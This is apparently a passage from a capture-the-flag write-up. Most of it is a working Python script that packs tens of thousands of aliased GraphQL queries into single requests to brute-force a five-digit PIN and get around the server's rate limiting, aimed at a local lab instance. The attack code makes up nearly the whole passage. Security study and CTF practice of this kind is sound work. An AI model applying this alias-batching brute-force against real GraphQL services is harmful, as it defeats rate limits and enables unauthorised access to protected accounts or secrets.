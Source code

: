 As you can see, we can send multiple queries at the same time!

**Let's write a Python (overkilled) script to automate that process!**
```python
#!/usr/bin/env python3
import requests
import json

class Exploit:
    def __init__(self, url):
        self.url = url

    @staticmethod
    def getQueryWithAliases(startPinNumber, endPinNumber):
        queryWithAliases = '{'
        for pinNumber in range(startPinNumber, endPinNumber + 1):
            if pinNumber == endPinNumber:
                # "," in the last query is not needed
                queryWithAliases += f'flag{pinNumber}:flag(pin:{pinNumber})'
                break
            queryWithAliases += f'flag{pinNumber}:flag(pin:{pinNumber}),'
        queryWithAliases += '}'

        return queryWithAliases

    def bypassRateLimit(self, startPinNumber, endPinNumber):
        queryWithAliases = Exploit.getQueryWithAliases(startPinNumber, endPinNumber)
        response = requests.post(self.url, json=queryWithAliases)
        if response.status_code != 200:
            print(f'\n[-] Query failed...')
            exit()
        if 'no u' in response.text:
            print(f'\n[-] Ahh... Rate limited... Please wait 60 seconds :(')
            exit()

        jsonResponse = json.loads(response.text)
        for key, value in jsonResponse['data'].items():
            isCorrectPin = True if value != 'Wrong!' else False
            if isCorrectPin:
                print(f'\n[+] Found correct PIN number {key[4:]}, flag: {value}')
                exit()

if __name__ == '__main__':
    isLocal = True
    url = ''
    if isLocal:
        url = 'http://localhost/'

    assert url, '[-] Please provide the remote instance\'s URL'
    exploit = Exploit(url)

    # I tried 50000 queries at one time, but it'll response 
    # HTTP status code "413 Request body is too large"
    PIN_NUMBER_RANGE = 20000
    SECRET_MINIMUM_INTEGER = 0
    SECRET_MAXIMUM_INTEGER = 10 ** 5
    for pinNumber in range(SECRET_MINIMUM_INTEGER, SECRET_MAXIMUM_INTEGER):
        if pinNumber % PIN_NUMBER_RANGE != 0:
            continue

        startPinNumber = pinNumber
        endPinNumber = startPinNumber + PIN_NUMBER_RANGE
        print(f'[*] Trying PIN number between {startPinNumber} to {endPinNumber}', end='\r')
        exploit.bypassRateLimit(startPinNumber, endPinNumber)
```